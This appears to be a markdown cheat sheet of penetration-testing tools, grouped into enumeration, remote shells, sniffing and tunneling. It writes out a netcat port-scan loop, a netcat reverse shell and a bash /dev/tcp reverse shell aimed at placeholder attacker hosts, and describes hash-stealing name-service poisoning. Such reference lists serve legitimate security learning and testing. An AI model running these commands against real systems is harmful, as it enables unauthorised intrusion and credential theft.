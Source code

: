 # Overview of Tools
## Enumeration
Tools for data gathering, analysis of infrastructure, enumeration. This includes tools like port scanning, service discovery, web content scanner.

| Tools | Description | Use | Tags |
| ----- | ----- | ----- | ----- |
| nmap | Port scanning | Scan for open ports and services, contains some scripts for automating tasks | Ports, Web, CVE |
| `for i in $(awk 'BEGIN { for ( i=1; i<=9999; i++ ) { print i; } }'); do nc -z -v <victim IP> $i; done` | Port scanning | Scan for ports in environments without nmap access | Ports, BusyBox, Shell, Alpine Linux |
| legion | NMAP GUI with some integrations | Scan for ports and open services, run NMAP scripts ans some service related tools | Ports, Web, CVE, GUI |
| dirb | Web content scanner | Crawls a webpage and finds hidden directories based on a wordlist | Wordlist, Web Content Scanner, Crawler, Directory |
| gobuster | Web content scanner, just brute force based with wordlists | Brute forces URIs and subdomains of a Web server | Wordlist, Web content scanner, Directory, DNS, Domains, URL |

## Remote access, Shells
Getting a shell and access to a target system.

| Tools | Description | Use | Tags |
| ----- | ----- | ----- | ----- |
| evil-winrm | A shell for Windows Remote Management focused on the evil side. It includes some tools for exploiting the target after gaining access. | WinRM shell access + exploiting target | WinRM, Remote Shell, Payloads, Exploiting |
| `netcat -lvp <port>` |  A netcat listener for incoming connections | Used for listening for the remote shell | Remote Shell, TCP, Listener |
| `netcat <attacker ip> <port> -e <the shell executable>` | Sends process output to a TCP connection and gets input from TCP connection | Used for opening a reverse shell (victim to target) on the target | Remote Shell, TCP |
| `bash -i >& /dev/tcp/<ATTACKER-IP>/<ATTACKER-PORT> 0>&1` | Sends process output to a TCP connection and gets input from TCP connection | Used for opening a reverse shell (victim to target) on the target if netcat is not usable for some reason (of if you don't want to download an extra file). It uses piping from bash to a tcp socket. | Bash, Reverse Shell, TCP |
| rlwrap | Readline wrapper | Make netcat use arrow keys | Netcat |
|  pwncat-cs | A netcat alternative aimed towards hackers | | Netcat, Shell, Manager |

## Sniffing
Packet and network sniffing for various protocols.

| Tools | Description | Use | Tags |
| ----- | ----- | ----- | ----- |
| tcpdump | TCP, UDP, ICMP packet sniffer | Used to sniff connections | TCP, UDP, ICMP, Sniffing |
| responder | NBT-NS, LLMNR & MDNS Responder | Used to poison windows specific services, gathering password hashes from the service request (for example from NTLM) etc. | NTLM, Responder, Windows, NetBIOS, NBT-NS, LLMNR, Link-Local Multicast Name Resolution |

## Network tunneling
Tunnel Ports.
| Tools | Description | Use | Tags |
| ----- | ----- | ----- | ----- |
| chisel | A fast TCP/UDP tunnel over HTTP | Tunnel TCP/UDP Ports in environments without SSH | Tunneling, Port Forwarding |
